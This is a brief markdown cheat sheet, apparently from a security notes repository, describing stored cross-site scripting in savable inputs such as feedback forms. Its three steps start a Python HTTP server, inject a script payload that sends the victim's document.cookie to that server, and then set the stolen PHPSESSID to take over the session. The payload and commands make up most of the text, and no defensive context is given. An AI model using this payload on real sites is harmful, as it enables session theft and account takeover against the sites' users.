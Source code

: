 # XSS | Stored

Context: On savable inputs, like feedback forms

**Concept Proof:** Get session id with XSS and send to personal server

### 1 - Start a python server:

```bash
python3 -m http.server
```

### 2 - XSS payload:

```html
<script>new Image().src="localhost:8080/?="+document.cookie;</script>
```

### 3 - Now, change your cookie to the session id received:

```html
<script>alert(document.cookie="PHPSESSID=asdjaosidjaosd")</script>
```
